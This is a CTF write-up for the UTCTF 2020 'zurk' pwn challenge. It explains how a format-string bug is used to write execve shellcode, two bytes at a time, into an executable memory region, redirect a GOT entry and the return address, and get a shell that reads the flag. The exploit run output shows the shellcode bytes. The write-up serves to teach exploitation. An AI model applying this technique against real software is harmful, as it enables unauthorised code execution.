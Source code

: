 [](ctf=utctf-2020)
[](type=pwn)
[](tags=format-string,shellcode)
[](tools=gdb,pwntools,python)

# zurk

We are given a [binary](../pwnable) and [libc](../libc-2.23.so). The binary has
a format string vulnerability and it has lots of exectuable regions.

```sh
gdb-peda$ vmmap
Start              End                Perm      Name
0x00400000         0x00401000         r-xp      /home/jai/Documents/ctf/utctf/pwn/zurk/pwnable
0x00600000         0x00601000         r-xp      /home/jai/Documents/ctf/utctf/pwn/zurk/pwnable
0x00601000         0x00602000         rwxp      /home/jai/Documents/ctf/utctf/pwn/zurk/pwnable
0x00007ffff7dce000 0x00007ffff7f8a000 r-xp      /usr/lib/libc-2.31.so
0x00007ffff7f8a000 0x00007ffff7f8d000 r-xp      /usr/lib/libc-2.31.so
0x00007ffff7f8d000 0x00007ffff7f90000 rwxp      /usr/lib/libc-2.31.so
0x00007ffff7f90000 0x00007ffff7f96000 rwxp      mapped
0x00007ffff7fcd000 0x00007ffff7fd0000 r--p      [vvar]
0x00007ffff7fd0000 0x00007ffff7fd1000 r-xp      [vdso]
0x00007ffff7fd1000 0x00007ffff7ffb000 r-xp      /usr/lib/ld-2.31.so
0x00007ffff7ffc000 0x00007ffff7ffd000 r-xp      /usr/lib/ld-2.31.so
0x00007ffff7ffd000 0x00007ffff7ffe000 rwxp      /usr/lib/ld-2.31.so
0x00007ffff7ffe000 0x00007ffff7fff000 rwxp      mapped
0x00007ffffffde000 0x00007ffffffff000 rwxp      [stack]
0xffffffffff600000 0xffffffffff601000 --xp      [vsyscall]
```

There is a format string vulnerability in the `do_move` function. The binary
reads 0x32 bytes from `stdin` and then passes our input till the first `\n` to
`printf`.

```asm
   0x00000000004006ea <+37>:    call   0x400560 <fgets@plt>
   0x00000000004006ef <+42>:    lea    rax,[rbp-0x40]
   0x00000000004006f3 <+46>:    mov    esi,0x4008b2
   0x00000000004006f8 <+51>:    mov    rdi,rax
   ...
   0x000000000040075b <+150>:   lea    rax,[rbp-0x40]
   0x000000000040075f <+154>:   mov    rdi,rax
   0x0000000000400762 <+157>:   mov    eax,0x0
   0x0000000000400767 <+162>:   call   0x400530 <printf@plt>
```

The 50 byte input size limitation is pretty difficult to get a traditional
attack, like overwriting a `GOT` address, working. The problem is that all the
functions present in the `GOT` are called in every path so we can't use
multiple writes to overwrite a `GOT` entry.

Instead of this, I decidided to place an `execve` shellcode in an executable
region of memory. I used multiple 2 byte writes to do this.

After that, there was a function in the binary at `0x400510` which calls a
`GOT` address. Since this function starts with `0x400...`, I can overwrite the
saved return address using a single write by just writing the last 4 bytes.

```asm
   0x400510:    push   QWORD PTR [rip+0x200af2]        # 0x601008
   0x400516:    jmp    QWORD PTR [rip+0x200af4]        # 0x601010
   0x40051c:    nop    DWORD PTR [rax+0x0]
```

Before that, I wrote the address of the shellcode in the `GOT entry` at
`0x601010`.

The solution script is [here](./solve.py).

```sh
$ python solve.py 
[*] '/home/jai/Documents/ctf/utctf/pwn/zurk/pwnable' 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO                         
    Stack:    No canary found      
    NX:       NX disabled                           
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments                      
[*] '/home/jai/Documents/ctf/utctf/pwn/zurk/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO        
    Stack:    Canary found
    NX:       NX enabled                            
    PIE:      PIE enabled
[+] Opening connection to binary.utctf.live on port 9003: Done
[*] fgets at: 0x7f30bb515ad0
[*] libc base at: 0x7f30bb4a8000
[*] system at: 0x7f30bb4ed390
[*] return address at: 0x7ffed11ae698
[*] writing b'jh' to 0x601800
[*] payload size: 24
[*] writing b'H\xb8' to 0x601802
[*] payload size: 24
[*] writing b'/b' to 0x601804
[*] payload size: 24
[*] writing b'in' to 0x601806
[*] payload size: 24
[*] writing b'//' to 0x601808
[*] payload size: 24
[*] writing b'/s' to 0x60180a
[*] payload size: 48
[*] writing b'PH' to 0x60180c
[*] payload size: 24
[*] writing b'\x89\xe7' to 0x60180e
[*] payload size: 24
[*] writing b'hr' to 0x601810
[*] payload size: 24
[*] writing b'i\x01' to 0x601812
[*] payload size: 24
[*] writing b'\x01\x81' to 0x601814
[*] payload size: 24
[*] writing b'4$' to 0x601816
[*] payload size: 24
[*] writing b'\x01\x01' to 0x601818
[*] payload size: 24
[*] writing b'\x01\x01' to 0x60181a
[*] payload size: 24
[*] writing b'1\xf6' to 0x60181c
[*] payload size: 24
[*] writing b'Vj' to 0x60181e
[*] payload size: 24
[*] writing b'\x08^' to 0x601820
[*] payload size: 24
[*] writing b'H\x01' to 0x601822
[*] payload size: 24
[*] writing b'\xe6V' to 0x601824
[*] payload size: 24
[*] writing b'H\x89' to 0x601826
[*] payload size: 24
[*] writing b'\xe61' to 0x601828
[*] payload size: 24
[*] writing b'\xd2j' to 0x60182a
[*] payload size: 24
[*] writing b';X' to 0x60182c
[*] payload size: 24
[*] writing b'\x0f\x05' to 0x60182e
[*] payload size: 24
[*] payload size: 24
[*] payload size: 24
[*] payload size: 24
[*] payload size: 16
[*] payload size: 24

... 

$ ls
flag.txt
$ cat flag.txt
utflag{wtf_i_h4d_n0_buffer_overflows}
$ 
[*] Interrupted
```
